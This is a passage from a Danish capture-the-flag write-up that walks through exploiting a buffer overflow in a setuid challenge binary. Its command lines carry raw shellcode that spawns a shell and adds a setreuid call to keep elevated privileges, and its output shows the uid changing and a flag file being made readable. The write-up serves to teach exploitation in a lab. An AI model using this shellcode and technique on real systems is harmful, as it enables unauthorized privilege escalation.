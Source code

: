 Vi prøver:

```text
./import_ønsker.elf $(python -c 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xeb\x1b\x5f\x31\xc0\x6a\x53\x6a\x18\x59\x49\x5b\x8a\x04\x0f\xf6\xd3\x30\xd8\x88\x04\x0f\x50\x85\xc9\x75\xef\xeb\x05\xe8\xe0\xff\xff\xff\x1c\x7f\xc5\xf9\xbe\xa3\xe4\xff\xb8\xff\xb2\xf4\x1f\x95\x4e\xfe\x25\x97\x93\x30\xb6\x39\xb2\x2cBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB"')
```

Og vi får en shell!

Men begejstringen varer kort, da vi ser at vi stadig bare er brugeren mellemnisse! Det er fordi Linux godt nok har startet programmet som storenisse, men så snart vi spawnede et nyt program "/bin/sh", så blev disse rettigheder glemt igen.

Løsningen er at programmet skal kalde:

```text
setreuid(geteuid(),geteuid())
```

Dette kan gøres med noget ekstra shell-kode:

http://shell-storm.org/shellcode/files/shellcode-399.php

```text
\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\
```

Så prøver vi igen, og det virker!:

```shell
./import_ønsker.elf $(python3 -c 'import sys; sys.stdout.buffer.write(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xdc\x9d\x04\x08\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xeb\x1b\x5f\x31\xc0\x6a\x53\x6a\x18\x59\x49\x5b\x8a\x04\x0f\xf6\xd3\x30\xd8\x88\x04\x0f\x50\x85\xc9\x75\xef\xeb\x05\xe8\xe0\xff\xff\xff\x1c\x7f\xc5\xf9\xbe\xa3\xe4\xff\xb8\xff\xb2\xf4\x1f\x95\x4e\xfe\x25\x97\x93\x30\xb6\x39\xb2\x2cBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB")')
id
uid=1000(storenisse) gid=1002(mellemnisse) groups=1002(mellemnisse)

cat storenisse.txt
cat: storenisse.txt: Permission denied
```

Vi ser at vi stadig ikke kan læse flaget, men at det bare er fordi vi ikke har sat denne rettighed:

```shell
chmod +r storenisse.txt
cat storenisse.txt
```

<details><summary>Spoiler alert - Flaget til storenisse:</summary></details>
